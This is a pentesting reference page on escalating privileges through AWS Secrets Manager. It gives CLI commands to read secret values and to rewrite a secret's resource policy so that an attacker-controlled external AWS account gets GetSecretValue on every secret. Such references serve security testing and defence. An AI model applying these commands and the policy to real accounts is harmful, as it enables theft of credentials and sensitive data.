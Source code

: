 # AWS - Secrets Manager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

For more info about secrets manager check:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

An attacker with this permission can get the **saved value inside a secret** in AWS **Secretsmanager**.

```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```

**Potential Impact:** Access high sensitive data inside AWS secrets manager service.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

With the previous permissions it's possible to **give access to other principals/accounts (even external)** to access the **secret**. Note that in order to **read secrets encrypted** with a KMS key, the user also needs to have **access over the KMS key** (more info in the [KMS Enum page](../aws-services/aws-kms-enum.md)).

```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```

policy.json:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::<attackers_account>:root"
      },
      "Action": "secretsmanager:GetSecretValue",
      "Resource": "*"
    }
  ]
}
```

{{#include ../../../banners/hacktricks-training.md}}

